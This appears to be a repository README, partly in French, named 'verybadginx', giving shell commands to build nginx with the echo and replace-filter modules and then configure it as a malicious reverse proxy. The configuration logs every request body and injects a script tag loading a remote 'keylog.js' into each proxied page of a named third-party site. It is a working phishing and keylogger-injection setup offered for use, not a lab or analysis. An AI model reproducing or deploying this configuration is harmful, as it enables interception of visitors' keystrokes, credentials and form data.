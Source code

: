 # verybadginx

#### Download nginx with modules

cd /tmp
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz'
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz
mv echo-nginx-module-0.58 /tmp/echo-nginx-module
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz'
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz
git clone https://github.com/openresty/replace-filter-nginx-module

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;


	

